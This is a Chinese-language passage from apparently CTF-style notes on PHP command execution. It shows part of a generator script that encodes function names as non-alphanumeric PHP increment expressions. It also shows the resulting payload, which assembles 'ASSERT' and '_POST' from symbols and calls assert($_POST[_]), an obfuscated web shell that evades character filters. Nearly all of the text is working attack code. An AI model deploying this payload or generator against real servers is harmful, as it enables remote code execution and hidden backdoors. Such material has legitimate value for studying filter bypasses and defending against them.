 ```php
            echo $POC_pat3;
        }else{
            $str2 = $cmd[$i-1];
            if($str1==$str2){
                $POC_pat5 = $POC_pat2;
                echo $POC_pat5;
            }else{
                $POC_pat6 = $POC_pat1.str_repeat("++\$__;",$POC1).$POC_pat2;
                echo $POC_pat6;
            }
        }
        $i++;
    }
}


if (!empty($cmd)){
    $POC_pat7 = "\$_=[].'';\$___=\$_[\$__];\$__=\$___;\$_=\$___;";
    echo $POC_pat7;
    POC($cmd);
}
if (!empty($cmd2)){
    POC2($cmd2);
}
```

输入?cmd=assert&post=POST后

![image-20240316154121046](PHP命令执行.assets/image-20240316154121046.png)

```php
<?php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$_ .=$__;$____ = '_';$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;$__=$___;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;$____ .=$__;
echo $_; // ASSERT
echo '
';
echo $____; // _POST
$__ = $$____; // $_POST
$_($__[_]); // assert($_POST[_])
```
